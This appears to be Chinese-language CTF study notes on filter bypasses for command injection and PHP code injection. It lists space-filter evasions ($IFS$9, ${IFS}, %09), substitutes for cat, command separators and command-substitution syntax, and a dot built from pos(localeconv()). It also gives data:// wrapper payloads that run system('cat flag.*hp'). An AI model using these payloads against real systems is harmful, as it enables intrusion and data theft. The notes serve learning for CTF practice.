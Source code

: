 ##### 空格绕过：
```
< 、<>、%20(space)、%09(tab)、$IFS$9、 ${IFS}、$IFS等
$IFS在linux下表示分隔符，但是如果单纯的cat$IFS2,bash解释器会把整个IFS2当做变量名，所以导致输不出来结果，然而如果加一个{}就固定了变量名，同理在后面加个$可以起到截断的作用，但是为什么要用$9呢，因为$9只是当前系统shell进程的第九个参数的持有者，它始终为空字符串。
```
##### cat绕过
```
cat、tac、more、less、head、tail、nl、sed、sort、uniq、 等命令代替
```
##### 分隔符：
```
linux中：%0a 、%0d 、; 、& 、| 、&&、||  
windows中：%0a、&、|、%1a（一个神奇的角色，作为.bat文件中的命令分隔符）
```
1、在 shell 中，担任”连续指令”功能的符号就是”;”  
2、"&" 放在启动参数后面表示设置此进程为后台进程，默认情况下，进程是前台进程，这时就把Shell给占据了，我们无法进行其他操作，对于那些没有交互的进程，很多时候，我们希望将其在后台启动，可以在启动参数的时候加一个’&’实现这个目的。  
3、管道符"|"左边命令的输出就会作为管道符右边命令的输入，所以左边的输出并不显示
##### 命令执行绕过
```
`命令`和$(命令)和{命令}都是执行命令的方式
```

![[Pasted image 20231213151235.png]]
##### 点号限制绕过

这个就是当点号(.)被过滤时使用，也没啥好讲的，就是用下面这个替换就可以了

```php
pos(localeconv())
```

**localeconv() 函数**返回一包含本地数字及货币格式信息的数组。其中**第一位就是点号**

**pos()函数**就是取数组的第一位元素并返回，所以就得到了点号
#### php限制绕过

 php的限制一般是用于防止后缀和嵌套php文件

后缀的话一般就用通配符就可以绕过了

限制嵌套php文件的话，若对传入的c进行php的过滤，那该怎么绕过呢？

例如原有这样一个语句

```cobol
?c=data://text/plain,<?php system("cat flag.*hp");?>
```

 那就可以用如下语句代替

```cobol
?c=data://text/plain,<?= system("cat flag.*hp");?>
```

 ==即**等于号**可以代替**php文件标识处的"php"**==
